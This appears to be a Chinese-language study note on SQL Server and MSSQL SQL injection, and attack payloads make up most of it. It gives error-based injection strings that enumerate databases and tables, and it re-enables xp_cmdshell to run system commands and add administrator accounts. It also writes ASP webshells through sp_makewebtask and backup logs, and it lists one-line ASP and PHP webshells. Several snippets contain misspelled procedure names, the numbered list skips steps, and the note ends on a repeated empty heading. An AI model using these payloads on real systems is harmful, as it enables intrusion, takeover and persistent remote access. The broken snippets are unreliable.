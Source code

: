 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

``` vbscript
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```sql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*


> 那如果前端做的比较好，不显示报错信息呢？
> syscolumns、sysdatabases 、sysobjects 具体代表了什么？
>  - sysdatabases和数据库信息有关，它的name表示所有的数据库，dbid列是他们的顺序，也是标识符
>  - sysobjects和数据库中的表的信息有关，name是表名，xtype='u'表示用户表，id是表的标识符
>  - syscolumns和表的列属性有关，name是列名，可以通过表的id来选择所属的表。


#### sqlserver另类玩法
#### 

- 利用mssql扩展存储注入攻击

  ``` sql
  1. 检测与恢复扩展存储
  /*判断xp_cmdhshell扩展存储是否存在*/
  and 1=(select name from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  
  /*判断xp_regread扩展存储过程是否存在*/
  and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
  
  /*恢复*/
  exec sp_configure 'show advanced options',1,reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
  exec sp_dropexetendedproc xp_cmdshell, 'xplog70.dll'
  
  2. sa权限下扩展存储攻击 利用方法
  /*安装完插件之后；利用xp_cmdshell扩展，执行任意命令*/
  /*查看C盘*/
  drop table black
  create table black(dire varchar(7996) NULL, id int not null identity(1,1))
  insert into black exec master..xp_cmdshell 'dir C:\' ;
  and 1=(select top 1 dire from black where id=1);
  
  /*新建windows用户*/
  exec master..xp_cmdshell 'net user test test /add'
  exec master..xp_cmdshell 'net localgroup administrators test /add'
  /*添加和删除一个SA权限的而用户test*/
  exec master.dbo.sp_addlogin test,password
  exec master.dbo.sap_addsrvrolemember test,sysadmin
  /*停掉或激活开个服务（need sa）*/
  exec master..xp_servicecontrol 'stop','schedule'
  exec master..xp_servicecontrol 'start','schedule'
  
  /*创建之后登陆，利用远程桌面，连接服务器（打开3389）*/
  
  /*开启远程数据库*/
  select * from OPENROWSET('SQLOLEDB','server=servername;uid=sa;pwd=_123', 
  'select * from table1')
  
  ```

  如果防火墙只允许我访问80，可以把80改成别的，但是会影响原来的呀；——端口转发or源控码

- 利用sp_makewebtask写入一句话木马

  要知道绝对路径，否则写不进去

  `;exec sp_makewebtask 'e:\www_iis\yjh.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''--`

- 写入一句话木马

  找到web目录后，即可写入一句话木马(dbo权限)

  ``` mssql
  ;alter database news set RECOVERY FULL 
  ;create table test(str image)-- 
  ;backup log news to disk='c:\test' with init-- 
  ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
  ;backup log news to disk='c:\inetpub\wwwroot\yjh.asp'-- 
  ;alter database news RECOVERY simple
  ```
   [扩展参考](https://www.cnblogs.com/shanmao/archive/2012/11/15/2770878.html)

> 端口转发
>
> 一句话木马是什么
>
> ​		 最直白的形式：把<%execute(request("value"))%>插入	到网页里。
>
> 一句话木马能干嘛
>
> ​	- 似乎是执行远程的value值，这个值是命令
>
> 一句话木马怎么写
>
> ​	- <%execute(request("value"))%>， <?php @eval($_POST[value]);?>

#### sqlserver差异备份、完全备份、权限入侵

#### sqlserver差异备份、完全备份、权限入侵
